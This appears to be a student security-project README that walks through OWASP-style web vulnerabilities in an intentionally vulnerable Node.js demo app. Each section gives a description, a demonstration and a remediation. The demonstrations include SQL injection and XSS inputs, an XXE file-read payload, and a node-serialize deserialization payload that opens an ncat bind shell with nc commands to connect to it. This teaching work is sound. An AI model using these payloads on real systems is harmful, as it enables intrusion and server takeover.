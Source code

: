 # CS467: Website Security Research Project

This project will explore the web vulnerabilities outlined in the article <a href="https://www.vpnmentor.com/blog/top-10-common-web-attacks/">Top 10 Common Web Attacks: The First Steps to Protect Your Website</a>. These vulnerabilities are categorized as follows:

* [Injection](#1-injection)
* [Broken Authentication](#2-broken-authentication)
* [Sensitive Data Exposure](#3-sensitive-data-exposure)
* [XML External Entities](#4-xml-external-entities)
* [Broken Access Control](#5-broken-access-control)
* [Security Misconfiguration](#6-security-misconfiguration)
* [Cross-Site Scripting](#7-cross-site-scripting)
* [Insecure Deserialization](#8-insecure-deserialization)
* [Using Components with Known Vulnerabilities](#9-using-components-with-known-vulnerabilities)
* [Insufficient Logging & Monitoring](#10-insufficient-logging--monitoring)

These vulnerabilities will be explored through a demonstration app, datapotato:
<img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/datapotato_black.svg#gh-light-mode-only" width=50% height=50%>
<img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/datapotato_white.svg#gh-dark-mode-only" width=50% height=50%>

# 1. Injection 
<details>
  <summary>
    Details
  </summary>
  
### Description

  |Source|Definition|
  |---|---|
  |Wikipedia|**Code injection** is the exploitation of a computer bug that is caused by processing invalid data|
  |OWASP|**Injection** is an attacker’s attempt to send data to an application in a way that will change the meaning of commands being sent to an interpreter|
  |IBM|This type of attack allows an attacker to **inject code** into a program or query or inject malware onto a computer in order to execute remote commands that can read or modify a database, or change data on a web site|
  
  These definitions are intentionally broad, as this concept appears in many environments. Our sources above list multiple subcategories of injection vulnerabilities:
  
  * Wikipedia: SQL injection, Cross-site scripting, Dynamic evaluation vulnerabilities, Object injection, Remote file injection, Format specifier injection, Shell injection
  * OWASP: SQL queries, LDAP queries, Operating system command interpreters, Any program invocation, XML documents, HTML documents, JSON structures, HTTP headers, File paths, URLs, A variety of expression languages
  * IBM: Blind SQL Injection, Blind XPath Injection, Buffer Overflow, Format String Attack, LDAP Injection, OS Commanding, SQL Injection, SSI Injection, XPath Injection
  
  ---
  
### Demonstration
  We'll focus on a specific flavor of injection vulnerability, SQLi (SQL injection).
  
  In this example, users are able to submit a request for data, for any individual user:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/enterUserName1.PNG">
  
  This sends the following request to our SQL table:
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName='user1'
  ```
  
  Result:
  
  |userName|userData|
  |---|---|
  |user1|user1's data|
  
  Now, let's inject a logical statement that our developers probably didn't intend to be used.  
  (This statement closes an open string, adds a logical OR, and comments out the rest of the SQL request body):
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/enterUserName2.PNG">
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName='user1' or TRUE
  ```
  
  This returns all rows in our table, because TRUE always evaluates to TRUE:
  
  |userName|userData|
  |---|---|
  |user1|user1's data|
  |user2|user2's data|
  |user3|user3's data|
  |[...]|[...]|
  
  You can try a live demo of this here (requires connection to OSU VPN):
  <a href="http://flip3.engr.oregonstate.edu:37773/injection#demonstration">[LINK TO WEB APP]</a>
  
  In this example, we've allowed the user to execute arbitrary SQL queries on our database. Our data is no longer secure or reliable. 
 
  ---  

### Remediation
  
  Remediation for injection vulnerabilities are specific to the context of the application. We will provide recommendations for the specific example above.
  
  OWASP advises vulnerabilities like the SQLi example above are failures of the **injection context**, specifically the SQL query. OWASP recommends the first defense in this context is escaping, in which we ensure data is treated like data, rather than an extension of the functionality or logic the query.
  
  MariaDB provides a method to bind data values to our query at the time it is executed, preventing the injection of additional commands.
  
  We'll convert our SQL query to a paramaterized query:
  
  ```
  SELECT userName, userData FROM `Users` WHERE userName=?
  ```
  
  This time, if you didn't enter a valid userName, you won't retrieve any results, since "user1' or TRUE; #" is not a valid user. This query is hardened against arbitrary SQL commands entered by our users.
 
  ---
  
### Citations: Injection
  "Code injection." Wikipedia.  
  https://en.wikipedia.org/wiki/Code_injection (accessed Jan 29, 2022).
  
  J. Williams. "Injection Theory". OWASP.  
  https://owasp.org/www-community/Injection_Theory (accessed Jan 29, 2022).
  
  "Injection Attacks." IBM.  
  https://www.ibm.com/docs/en/snips/4.6.0?topic=categories-injection-attacks (accessed Jan 29, 2022).
  
  "PREPARE Statement". MariaDB.  
  https://mariadb.com/kb/en/prepare-statement/ (accessed Feb 10, 2022)
</details>

# 2. Broken Authentication
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|(now referred to as Identification and Authentication Failures) Confirmation of the user's identity, authentication, and session management is critical to protect against **authentication-related attacks**|
  |IBM| This type of attack targets and attempts to **exploit the authentication process** a web site uses to verify the identity of a user, service, or application|
  
  This is another broad category. There are many types of authentication in use. IBM divides these attacks into 3 categories:
  * Brute force
  * Insufficient authentication
  * Weak password recovery
  
  Our app won't implement a password recovery system, so we'll focus on the other two attacks.
  
  ---
  
### Demonstration
  The most basic attack in this category is brute force, either guessing credentials or using an automated process to gain access to restricted systems or data.
  
  We've set up an `/admin` route that allows direct read accesss for our web app's data. To access this route, you'll need to know the admin username an password.
  
  To make it easy, we'll pick one of the [OWASP Top 10000 Worst Passwords](https://github.com/OWASP/passfault/blob/master/wordlists/wordlists/10k-worst-passwords.txt). Can you guess which one it is?
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/admin.PNG">
  
  If you brute-forced this answer and visit the [ADMIN page](http://flip3.engr.oregonstate.edu:37773/admin) (requires connection to OSU VPN), you'll see all our user data.
  
  ---
  
### Remediation
  
  There are multiple ways we can harden our app against this vulnerability.
  
  First, we'll change the password to something harder to guess. Because password strength recommendations vary widely, we'll combine recommendations from a few sources:
  
  |Source|Recommendation|
  |---|---|
  |[OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)|Minimum length of the passwords should be enforced by the application. Passwords shorter than 8 characters are considered to be weak
  |[OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)|Maximum password length should not be set too low, as it will prevent users from creating passphrases. A common maximum length is 64 characters [...] It is important to set a maximum password length to prevent long password Denial of Service attacks.|
  |[IBM Password Guidelines](https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines)|A length of 15-50 characters|
  |[IBM Password Guidelines](https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines)|A combination of at least two-character types from the following options: uppercase[A-Z], lowercase[a-z], number[0-9], and special characters. The valid non-alphabetic characters include the following characters hyphen (-), underscore (_), period (.), and special characters such as !@#$%&|
  
  We'll also use a password strength meter application like [zxcvbn](https://github.com/dropbox/zxcvbn) to ensure the password we pick is safe against brute force attacks. (See also: [interactive web implementation of zxcvbn](https://lowe.github.io/tryzxcvbn/))
  
  Now that we've got our strong password, we'll salt it and hash it using the [Crypto nodejs module](https://nodejs.org/api/crypto.html) before saving it in our database. This fixes two more vulnerabilities:
  
  Salting: This is a randomized string concatenated with the password before hashing, to ensure that if the hashing mechanism is compromised, an attacker can't automatically solve for all the other passwords in the database.
  
  Hashing: This increases the complexity of the plaintext password before saving it to our database, ensuring someone with access to the database can't read the plaintext version of the password.
  
  These changes are impemented on our user <code>superAdmin</code>, and will be implemented in the hardened web app.
  
  ---
  
### Citations: Broken Authentication
  "A07:2021 – Identification and Authentication Failures". OWASP top 10:2021.  
  https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/ (accessed Feb 10, 2022).
  
  "Authentication attacks". IBM.  
  https://www.ibm.com/docs/en/snips/4.6.0?topic=categories-authentication-attacks (accessed Feb 10, 2022).
  
  D. Whitelegg. "Scan your app to find and fix OWASP Top 10 - 2017 vulnerabilities". IBM Developer.  
  https://developer.ibm.com/tutorials/se-owasp-top10/ (accessed Feb 10, 2022).
  
  "10k-worst-passwords.txt". OWASP / passfault.  
  https://github.com/OWASP/passfault/blob/master/wordlists/wordlists/10k-worst-passwords.txt (accessed Feb 10, 2022).

  "Authentication Cheat Sheet". OWASP Cheat Sheet Series.  
  https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html (accessed Feb 12, 2022).
  
  "Password guidelines". Search in IBM Sterling Partner Engagement Manager.  
  https://www.ibm.com/docs/en/partnerengagemanager?topic=overview-password-guidelines (accessed Feb 12, 2022).
  
  "zxcvbn". dropbox / zxcvbn.  
  https://github.com/dropbox/zxcvbn (accessed Feb 12, 2022).
  
  "demo". zxcvbn tests.  
  https://lowe.github.io/tryzxcvbn/ (accessed Feb 12, 2022).
  
  "Crypto". Crypto | Node.js.  
  https://nodejs.org/api/crypto.html (accessed Feb 12, 2022).

  "How to use the crypto module". Node.js.  
  https://nodejs.org/en/knowledge/cryptography/how-to-use-crypto-module/ (accessed Feb 13, 2022).
 </details>
  
# 3. Sensitive Data Exposure
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|(See "Cryptographic Failures")[...] the focus is on **failures related to cryptography** (or lack thereof) [...] (which) often lead to exposure of sensitive data"
  |vpnMentor|Secret data usually needs to be **protected with encryption** and other cryptographic algorithms|
  
  ---
  
### Demonstration
  
  Any endpoint that can access our user data will be able to see the userData column in plaintext. (Users on the OSU VPN can use the exploit in the [Broken Authentication](#2-broken-authentication) section to access this data.) 
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/userData.PNG">
  
  ---
  
### Remediation
  
  The most direct route for us to fix this is to encrypt our users' data.
  
  Fortunately, the <code>crypto</code> nodejs module we're using to salt and hash our user passwords also includes <code>cipher</code> and <code>decipher</code> classes we can use to encrypt this part of our database.
  
  (OSU VPN users only) This utility is live on the [/admin route](http://flip3.engr.oregonstate.edu:37773/admin) and you can see a snapshot of the web app utility here.
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt1of3.png">
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt2of3.png">
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/encrypt3of3.png">
  
  ---
  
### Citations: Sensitive Data Exposure
  
  "A02:2021 – Cryptographic Failures". OWASP Top 10:2021.  
  https://owasp.org/Top10/A02_2021-Cryptographic_Failures/ (accessed Feb 13, 2022).
  
  Avi. D. "Top 10 Common Web Attacks: The First Steps to Protect Your Website." vpnMentor.  
  https://www.vpnmentor.com/blog/top-10-common-web-attacks/ (accessed Feb 13, 2022).
  
  "Crypto". Crypto | Node.js.  
  https://nodejs.org/api/crypto.html#class-cipher (accessed Feb 16, 2022).
  
</details>

# 4. XML External Entities
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |OWASP|An **XML External Entity attack** is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser.|
  |IBM| [Vulnerable software] could allow a remote attacker to obtain sensitive information, caused by an **XML External Entity Injection** (XXE) error when processing XML data. An attacker could declare an entity referencing the content of a local file to obtain sensitive information.|
  
  A basic XML file with a defined entity looks like this:
  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY bar "This is a fine entity">]>
  <foo>&bar</foo>
  ```
  
  Here's how Firefox and Chrome render this XML:
  
  Firefox:
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/fooFirefox.PNG">
  
  Chrome:
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/fooChrome.PNG">
    
  ---
  
### Demonstration
  
  The issue at hand is that the [document type declaration](https://www.w3.org/TR/REC-xml/#sec-prolog-dtd) can be configured to access internal or external references.
  
  External entities, such as ones that point to server resources, or malicious URLs, are our primary concern. Here are is an example of a potentially harmful XML request (from the [OWASP website](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing).) This request could send an attacker information about critical system files:
  
  ```
  <?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]>
  <foo>&xxe;</foo>
  ```
  
  Because many modern node libraries do not support expansion of external entities, your researchers were not able to find a library which sufficiently demonstrated this vulnerability compatible with our node setup. In lieu of a live demonstration, please consider the following well-documented examples:
  
  [XML Entity Expansion in NodeJS](https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_nodejs.html)  
  [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)  
  
  ---
  
### Remediation
  
  Developers should consider all of their XML parsing dependencies carefully, and ensure any custom XML parsing implementations have external entity expansion off by default. 
  
  Popular npm XML parsing utilities such as [express-xml-bodyparser](https://www.npmjs.com/package/express-xml-bodyparser) will automatically prevent entities from being defined, by throwing an error if an unescaped ampersand is encountered. Here's what happens when we send an XML POST to our endpoint with an ampersand using this package:
  
  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY bar "This is a fine entity">]>
  <foo>&bar;</foo>
  ```
  Returns <code>Error: Invalid character entity</code>
  
  In our hardened web app, we'll return a <code>400 BAD REQUEST</code> error if we receive a request of this type. This will limit the types of XML requests we can process, but it will ensure protection against this vulnerability. Try using an API like [Postman](https://www.postman.com/) to send your own XML request to the server.
  
  ---
  
### Citations: XML External Entities
  "XML External Entity (XXE) Processing". OWASP.  
  https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing (accessed Feb 20, 2022).
  
  "IT06733: A vulnerability in XML External Entity (XXE) processing could allow a remote attacker to obtain sensitive information.". IBM Support.  
  https://www.ibm.com/support/pages/apar/IT06733 (accessed Feb 20, 2022).
  
  "XML introduction". MDN Web Docs.  
  https://developer.mozilla.org/en-US/docs/Web/XML/XML_introduction (accessed Feb 20, 2022).
  
  "Load external DTDs (entity/entities) (local and remote) if a pref is set". Bugzilla.  
  https://bugzilla.mozilla.org/show_bug.cgi?id=22942 (accessed Feb 20, 2022).
  
  "express-xml-bodyparser". npmjs.com.  
  https://www.npmjs.com/package/express-xml-bodyparser (accessed Feb 20, 2022).
  
  "Prolog and Document Type Declaration". w3.org.  
  https://www.w3.org/TR/REC-xml/#sec-prolog-dtd (accessed Feb 20, 2022).
  
  "Postman API Platform". Postman.  
  https://www.postman.com/ (accessed Feb 20, 2022).
  
  "XML Entity Expansion in NodeJS". SecureFlag.  
  https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_nodejs.html (accessed Feb 23, 2022).
  
  "XML External Entity Prevention Cheat Sheet". OWASP Cheat Sheet Series.  
  https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html (accessed Feb 23, 2022).
  
</details>

# 5. Broken Access Control
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |Wikipedia|In the fields of physical security and information security, **access control** (AC) is the selective restriction of access to a place or other resource|
  |OWASP|**Access control** enforces policy such that users cannot act outside of their intended permissions. Failures typically lead to unauthorized information disclosure, modification, or destruction of all data or performing a business function outside the user's limits|
  |IBM|**Access control** mechanisms determine which operations the user can or cannot do by comparing the user's identity to an access control list (ACL)|
  
  In our first 5 vulnerabilities, this category affects the most code. Every piece of data, endpoint, and access mechanism should be considered with respect to this topic.
  
  OWASP goes on to provide a [broad list of vulnerabilities](https://owasp.org/Top10/A01_2021-Broken_Access_Control/) in this category:
  
  * Violation of the principle of least privilege or deny by default, where access should only be granted for particular capabilities, roles, or users, but is available to anyone.  
  * Bypassing access control checks by modifying the URL (parameter tampering or force browsing), internal application state, or the HTML page, or by using an attack tool modifying API requests.  
  * Permitting viewing or editing someone else's account, by providing its unique identifier (insecure direct object references)  
  * Accessing API with missing access controls for POST, PUT and DELETE.  
  * Elevation of privilege. Acting as a user without being logged in or acting as an admin when logged in as a user.  
  * Metadata manipulation, such as replaying or tampering with a JSON Web Token (JWT) access control token, or a cookie or hidden field manipulated to elevate privileges or abusing JWT invalidation.  
  * CORS misconfiguration allows API access from unauthorized/untrusted origins.  
  * Force browsing to authenticated pages as an unauthenticated user or to privileged pages as a standard user.  

  ---
  
### Demonstration
  
  Our app is currently vulnerable to two of the access control failures above: bypassing access control checks by modifying the URL and accessing the API with missing access controls.
  
  During development, we created a route (OSU VPN users only) [/adminTest](http://flip3.engr.oregonstate.edu:37773/adminTest) to test admin functionality. This page was created before we implemented Session authentication. However, we forgot to remove this route or remediate the access control on this page. Even though there is no link to this page on our site, if someone discovered this route they'd be able to access many of our admin utilities normally protected with userName/password authentication.
  
  The other access control failure can be demonstrated with any utility that can send an HTTP request. Here, we'll use [Postman](https://www.postman.com/). 
  
  Our web app will process any valid HTTP request sent to it without requiring authentication. Let's POST to [/admin](http://flip3.engr.oregonstate.edu:37773/admin) and use the admin utility to reset the database: 
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/postToAdmin.png">
  
  We were able to do this because there's no access control on that route. All of our custom user data has been lost!  
  
  ---
  
### Remediation
  
  In our hardened app, we'll make to two changes to remediate these failures:
  
  1. The <code>/adminTest</code> route will be removed
  2. All reqest types sent to the <code>/admin</code> route will require the same Session authentication confirming the user that is signed in has admin credentials.
  
  Additional remediations we could take include:
  * Using more advanced authentication such as JWTs
  * Enforcing "least privilege" principles where certain utilities are only available to specific user groups
  * Increased logging
  * Disabling directory browsing
  
  ---
  
### Citations: Broken Access Control
  "A01:2021 – Broken Access Control". OWASP Top 10:2021.  
  https://owasp.org/Top10/A01_2021-Broken_Access_Control/ (accessed Feb 21, 2022).
  
  "Authentication versus access control". IBM Watson Content Analytics.  
  https://www.ibm.com/docs/en/wca/3.0.0?topic=security-authentication-versus-access-control (accessed Feb 21, 2022).
  
  "Access Control". Wikipedia.  
  https://en.wikipedia.org/wiki/Access_control (accessed Feb 21, 2022).
  
  "Postman API Platform". Postman.  
  https://www.postman.com/ (accessed Feb 21, 2022).
  
</details>

# 6. Security Misconfiguration
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |OWASP|**Security Misconfiguration** can happen at any level of an application stack, including the network services, platform, web server, application server, database, frameworks, custom code, and pre-installed virtual machines, containers, or storage.|
  |The Hackerish|**Security Misconfiguration** happens when the responsible party fails to follow best practices when configuring an asset.  This asset can be an operating system, a web server, software running on a machine, etc. Security Misonfigurations don't affect web assets only.  Any component which requires a configuration is subject to this vulnerability.  This means network devices, hardware, email services, etc. can suffer from this vulnerability.|
  |Guardiacore|**Security Misonfiguration** is simply defined as failing to implement security controls for a server or web application, or implementing the security controls, but doing so with error.|
  
  ---
### Demonstration
  From the definitions, it is clear that **Security Misoncfiguration** affects more than just the web application, which in our case is the nodejs application, the libraries we are using, and our database.
  
  For the purposes of this demonstration, we'll focus on the Server itself, which in this case if the Oregon State flip3 server where our vulnerable web application is hosted.  More specificically we'll look at configuration of the ports and protocols.
  
  One of the tenets of good network security is to only open network ports that are necessary. However, because of the nature of the flip3 server, it is required to be fairly open, otherwise it would not be possible to host student web applications - including ours.
  
  To put in perspective how open the flip3 server is, I conducted an nmap scan:
  
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/flip3_nmap_scan1.png" alt="flip_scan1" height="50%" width="100%">
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/flip3_nmap_scan2.png" height="50%" width="100%">
  
  The simple nmap scan can provide an attacker a wealth of information, but more importantly, each open port/protocal provides an attacker a potential attack vector against the system or application.
  
  ---
### Remediation
  For obvious reasons, we do not have the privileges necessary to harden the flip3 server, however, we do have those privileges on our AWS instance.
  
  In our AWS instance we can control which ports/protocols are exposed through the use of **Security Groups** and **Network ACLs**.  For our purposes, we'll only use the Security Group.
  
  Each EC2 instance in our AWS Virtual Private Cloud (VPC) must have a security group associated with it.  A security group acts a firewall.  We can define a range of source IPs from the Internet that communicate with our EC2 instance, and we can define the ports on our EC2 instance that can be reached.
  
  We created the following rule:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_security_group.png" width="100%">
  
  This only exposes the TCP port 37773 to anyone on the Internet (0.0.0.0), significantly reducing the attack surface area of our system/application.
  
  Screenshot of an nmap scan before the security group was modified in AWS:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_scan_before.png" width="100%">
  
  Screenshot of an nmap scan after the security group was modified in AWS:
  <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/aws_scan_after.png" width="100%">
  
  As we can see, the information a potential attacker is able to obtain is limited, but more importantly our attack surface area is greatly reduced.
  
  ---
### Citations: Security Misconfiguration
  "Security Misconfiguration". OWASP.  
  https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration (accessed Feb 22, 2022).
  
  "Security Misconfiguration Explained". The Hackerish.  
  https://thehackerish.com/owasp-security-misconfiguration-explained/ (accessed Feb 19, 2022).
  
  "What is Security Configuration and How to Avoid It" Guardiacore.  
  https://www.guardicore.com/blog/understanding-and-avoiding-security-misconfiguration/ (accessed Feb 19, 2022).
</details>

# 7. Cross-Site Scripting
<details>
  <summary>
    Details
  </summary>
  
### Description
  
  |Source|Definition|
  |---|---|
  |Wikipedia|**XSS** is a type of security vulnerability that can be found in some web application. XSS attacks enable attackers to inject **client-side scripts** into web pages viewed by other users.|
  |OWASP|**XSS** attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites.|
  |IBM<|**XSS** is a computer securit vulnerability that allows malicious attackers to inject client-side script into web pages viewed by other users.|

  In summary, XSS is an attack on vulnerable web applications that allows a malicious actor to inject client-side script, e.g. javascript, into web pages.
                
  ---
### Demonstration
  In this first example, we will start off with benign input. Here's what users of the web app will see when they type **Hello World!** and select "Submit" in this example.
    
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssHelloWorld.png">
    
  This posts the following to our web application, which is then rendered by our express handlebars templating engine.

  ```
  req.body.userInput
  ```
    
  Result:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssDemonstrationResult.png">
    
  Now we'll inject a script into the web app, something the developers probably didn't intend to be used.
    
  Here's what users of the app will see when they type **&lt;script&gt;alert(42)&lt;/script&gt;** and select "Submit".
                
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssScript.png">
  
  Result:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssScriptResult.png">
  
  In this example, we've allowed the user to inject a client-side script into our web application.
  
  ---
### Remediation
  There many methods to remediate XSS vulnerabilities. Most techniques revolve around sanitizing user input.
        
  Our web application is succeptible to XSS because the handlebars engine renders user provided input exactly as written.

  Specifically, the vulnerable piece of code in our handlebars template is:

  ```
  {{{input}}}
  ```

  Use of the triple brackets will render all user input exactly as written.

  We can prevent script injection by using double brackets as so:

  ```
  {{input}}
  ```

  Users can again attempt to inject the XSS script again into our web application:

  **&lt;script&gt;alert(42)&lt;/script&gt;** and select "Submit".
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/xssRemediation.png">
  
  Use of double brackets in handlebars escapes special characters such as '&lt;' and '&gt;', which are often used in XSS attacks.
  
  ---
### Citations: Cross-Site Scripting
  "Code injection." Wikipedia.  
  https://en.wikipedia.org/wiki/Cross-site_scripting (accessed Feb 14, 2022).  
  
  KirstenS. "Cross Site Scripting (XSS)". OWASP.  
  https://owasp.org/www-community/attacks/xss/ (accessed Jan 29, 2022).  
  
  "Cross Site Scripting (XSS) Filter." IBM.  
  https://www.ibm.com/docs/en/sc-and-ds/8.2.0?topic=manager-cross-site-scripting-xss-filters (accessed Feb 15, 2022).  
  
  "Expressions." Handlebars Online User Guide.  
  https://handlebarsjs.com/guide/expressions.html (accessed Feb 10, 2022).
  
</details>

# 8. Insecure Deserialization
<details>
  <summary>
    Details
  </summary>
  
### Description
  In order to understand what **Insecure Deserialization** is, we must first define **serialization.**
  
  Wikipedia defines **serialization** as the process of translating a data structure or object state into a format that can be stored (e.g. in a file or memory buffer) or transmitted (e.g. over a network) and reconstructed later (possibly in a different computer envrinoment). When the resulting series of bits is re-read according to the serialization format, it can be used to create a semantically identical clone of the original object.
  
  |Source|Definition|
  |---|---|
  |Search Security|**Inseucre Deserialization** is a vulnerability in which an untrusted or unknown data is used to either inflict a DoS, execute code, bypass authentication or further abuse logic behind the application. **Serialization** is the proces that converts an object to a format that can be later restored. **Deserialization** is the opposing process which takes data from a file, stream or network and rebuilds it into an object.|
  |Portswigger|**Insecure Deserialization** is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized object in order to pass harmful data into the application code.|
  
  ---
### Demonstration
  Our web application makes use of the node package **"node-serialize"** to serialize and deserialize objects.
  
  In this first example, we will start off with benign input. We will serialize a simple JSON object and then deserialize it. Type:
  
  ```
  {test:123}
  ```
  
  and select "Submit". Here's what that looks like in our [web app (OSU VPN users only)](http://flip3.engr.oregonstate.edu:37773/insecureDeserialization):
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization1.PNG">
  
  We'll now deserialize the serialized object, which should return the original input <code>{test:123}</code>. Here's the result from our web app.

  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization2.PNG">
  
  We'll now utlize a more nefarious input which will allow us to create a BIND Shell on our server. In the web app, type in the following:
  
  ```
  {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ncat -nlvp 4444 -e /bin/sh', function(error, stdout, stderr) { console.log(stdout) });}()"}
  ```
  
  In a command line terminal, preferably linux, connect to the bind shell.
  
  If visiting the web application on our AWS instance:
  
  ```
  nc -vn 157.175.92.30 4444
  ```
  
  If visiting the web application on the flip server:
  ```
  nc -vn 127.0.0.1 4444
  ```
  
  The vulnerable piece of code in our web application is:
  
  ```
  var serialze = require('node-serialize')
  var obj = req.body.userInput
  var deserialized = serialize.unserialize(obj)
  ```
  
  We are deserializing unsanitized user input.
  
  The issue lies in the fact that the node-serialize package allows for the serialization and deserialization of JSON objects which have functions defined.
  
  In nefarious payload, we created a JSON object with the key **"rce"** which had function definend as its value.
  
  According to [Aleski Turin](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/), a serialized object with a function defined has the following form:
  
  ```
  {"anything_here":"_$$ND_FUNC$$_function (){сonsole.log(1)}"}
  ```
  
  Anything after the special tag <code>$$ND_FUNC$$</code> is evaluated in the eval function.  This is what allows malicious users to execute arbitrary code on our web application.
  
  ---
### Remediation
  We can mitigate/prevent this vulnerability from being exploited by sanitizing user input.
  
  In our sanitized code, we make use of the <code>JSON.stringify</code> function:
  
  ```
  var serialze = require('node-serialize')
  var obj = req.body.userInput
  var sanitized = JSON.stringify(obj)
  var deserialized = serialize.unserialize(sanitized)
  ```
  
  If we attempt to enter the malicious code again, and try to connect to the BIND shell, it will fail.
  
  If you enter the following code again in our sanitized form, here's what you'll see:
  
  ><img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/insecureDeserialization3.PNG">
  
  Our web application can now safely deserialize the user input:
  
  ```
  {test:123}
  ```
  
  If you attempt to connect to the BIND shell, it no longer works. Try it:
  
  If visiting the web application on our AWS instance:
  
  ```
  nc -vn 157.175.92.30 4444
  ```
  
  If visiting the web application on the flip server:
  
  ```
  nc -vn 127.0.0.1 4444
  ```
  
  ---
### Citations: Insecure Deserialization
  "Deserialization vulnerabilities: attacking deserialization in JS" Acunetix.  
  https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/ (accessed Feb 20, 2022).
  
  "Exploiting Node.js deserialization bug for Remote Code Execution". OPSECX.  
  https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ (accessed Jan 29, 2022).
  
  "Serialization" Wikipedia.  
  https://en.wikipedia.org/wiki/Serialization (accessed Feb 15, 2022).
  
  "What is Insecure Deserialization." Acunetix.  
  https://www.acunetix.com/blog/articles/what-is-insecure-deserialization/ (accessed Feb 10, 2022).
</details>

# 9. Using Components with Known Vulnerabilities
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |Team Treehouse|**Components** such as libraries, frameworks, and other software modules, run with same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover.  Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts|
  |GeeksforGeeks|**Components with known vulnerabilities** can be defined as third-party apps or software platforms that are outdated and contain bugs that are public to all, i.e. sites like <a href="https://www.exploit-db.com">exploit-db</a> contain the full details as to how to exploit the bugs to put the security of the whole website under severe threat.|
